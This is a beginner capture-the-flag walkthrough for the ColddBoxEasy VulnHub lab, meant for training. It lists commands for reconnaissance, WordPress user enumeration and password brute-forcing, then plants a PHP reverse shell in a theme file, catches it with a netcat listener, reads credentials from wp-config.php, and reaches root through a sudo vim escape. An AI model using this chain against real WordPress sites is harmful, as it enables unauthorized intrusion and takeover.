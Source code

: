 ColddBoxEasy VulnHub Walkthrough

ColddBoxEasy is a beginner-friendly vulnerable machine available on VulnHub.

Download the machine (.ova file) here:
https://download.vulnhub.com/colddbox/ColddBoxEasy_EN.ova

Step 1 — Finding the Target IP
List all active devices on your network:
sudo arp-scan -l
Look for MAC addresses starting with 08:00:27, which usually belong to VirtualBox machines. The last one in the list, 10.0.2.9, is the ColddBoxEasy machine.

Step 2 — Reconnaissance
Scan the target machine using Nmap:
nmap -sC -sV -Pn -T4 10.0.2.9
The scan shows:
Open port: 80 (Apache HTTP server on Ubuntu)
HTTP site title: ColddBox | One more machine
WordPress version: 4.1.31

Open the target IP in a browser to explore the website.

Step 3 — Discover Hidden Directories
Run dirsearch to find hidden directories:
dirsearch -u http://10.0.2.9/
The scan reveals /hidden, /wp-admin, /wp-content, and /wp-includes.

Open /hidden in a browser. A note lists three names: c0ldd, Hugo, and Philip. These are potential usernames.

Step 4 — Enumerate WordPress Users
Use wpscan to confirm usernames:
wpscan --url http://10.0.2.9/ -e u
Confirmed usernames: c0ldd, hugo, philip

Step 5 — Brute Force WordPress Password
Brute-force the password for c0ldd:
wpscan --url http://10.0.2.9/ -U c0ldd -P /usr/share/wordlists/rockyou.txt
Password found: 9876543210

Step 6 — WordPress Admin Access
Log in to the WordPress admin panel at /wp-admin using c0ldd credentials.

Step 7 — Upload Reverse Shell
In the WordPress dashboard, go to Appearance > Editor > 404.php. Paste the PentestMonkey PHP reverse shell code. Update the IP to your machine and port (default or custom).

Step 8 — Set Up Netcat Listener
Start a listener on your machine:
nc -lnvp 1234

Step 9 — Trigger Reverse Shell
Open the 404.php page in a browser:
http://10.0.2.9/wp-content/themes/twentyfifteen/404.php
This executes the reverse shell and connects back as user www-data.

Step 10 — Upgrade to Interactive Shell
Check Python3 and upgrade the shell:
python3 -c 'import pty;pty.spawn("/bin/bash")'

Step 11 — Access WordPress Folder
Navigate to WordPress installation:
cd /var/www/html
Open wp-config.php to find database credentials:
Database name: colddbox
Database username: c0ldd
Database password: cybersecurity

Step 12 — Switch to User c0ldd
Use credentials to switch:
su c0ldd
Navigate to /home/c0ldd and read user flag:
cat user.txt

Step 13 — Privilege Escalation
Check sudo privileges:
sudo -l
c0ldd can run commands like vim, chmod, and ftp as root. Use vim to escape to root shell:
sudo vim -c ':!/bin/sh'
Confirm root access and read root flag:
cd /root
cat root.txt

Step 14 — Summary
Steps completed:
  1.Identify target IP
  2.Scan services and explore WordPress site
  3.Discover usernames and brute-force WordPress login
  4.Upload reverse shell via WordPress theme editor
  5.Switch to system user c0ldd using credentials from wp-config.php
  6.Escalate to root using sudo and vim  
  7.Capture user and root flags
